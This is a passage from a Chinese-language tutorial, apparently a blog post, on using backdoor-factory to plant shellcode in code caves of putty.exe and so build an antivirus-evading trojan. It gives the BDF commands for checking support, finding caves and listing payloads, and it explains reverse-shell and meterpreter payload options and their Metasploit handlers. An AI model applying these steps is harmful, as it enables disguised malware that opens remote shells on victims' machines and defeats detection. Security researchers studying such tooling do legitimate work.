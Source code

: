 1. 直接生成免杀后门

   backdoor-factory是把shellcode插入到一个正常的exe文件的代码"缝隙"中，类似于捆绑但不是捆绑，所以需要提前准备一个被捆绑的宿主exe文件，还是用之前的`putty.exe`为例。

2. 在"捆绑"之前，BDF需要检查一下宿主exe能否被支持"插入"shellcode。

   用到下面两个参数：

   ```bash
   -f：指定测试程序
   
   -S：检查该程序是否支持
   ```

   命令：

   ```bash
   # 我用的git clone 的，安装完直接进入到目录
   ./backdoor.py -f /root/msf/miansha/putty.exe -S
   ```

   [![BY496e.png](https://s1.ax1x.com/2020/10/30/BY496e.png)](https://imgchr.com/i/BY496e)

   可以看到，是可以被支持的。

3. 搜索该文件可用的 `code caves` （代码缝隙）

   ```bash
   ./backdoor.py -f /root/msf/miansha/putty.exe -c -l 600
   
   -c：code cave(代码裂缝)
   
   -l：代码裂缝大小
   ```

   [![BY4wnJ.md.png](https://s1.ax1x.com/2020/10/30/BY4wnJ.md.png)](https://imgchr.com/i/BY4wnJ)

   发现3个可用代码缝隙，一般 shellcode 大小约 300 字节，所以选择一个适当地缝隙就可以。

4. 获取该文件可用的 payload

   ```bash
   ./backdoor.py -f /root/msf/miansha/putty.exe -s -show 
   ```

   [![BY5Vb9.md.png](https://s1.ax1x.com/2020/10/30/BY5Vb9.md.png)](https://imgchr.com/i/BY5Vb9)

   如上图所示，会有很多的可利用payload。

   `cave_miner_inline`:作为payload模板，长度为135，仅实现了控制流程跳转，不做其他操作，可用作自定义开发shellcode的模板

   `reverse_shell_tcp_inline`：对应的msf：`use exploit/multi/handlerset payload windows/meterpreter/reverse_tcp
   meterpreter_reverse_https_threaded`：对应的msf：`use exploit/multi/handlerset payload windows/meterpreter/reverse_https`

   `iat_reverse_tcp_inline`中的iat：iat为`Import Address Table`(导入地址表)的缩写，如果PE文件的IAT不包含API LoadLibraryA和GetProcAddress，直接执行payload `reverse_shell_tcp_inline会失败`，`iat_reverse_tcp_inline`增加了修复IAT的功能，避免执行失败

   `iat_reverse_tcp_stager_threaded`:增加了修复IAT的功能

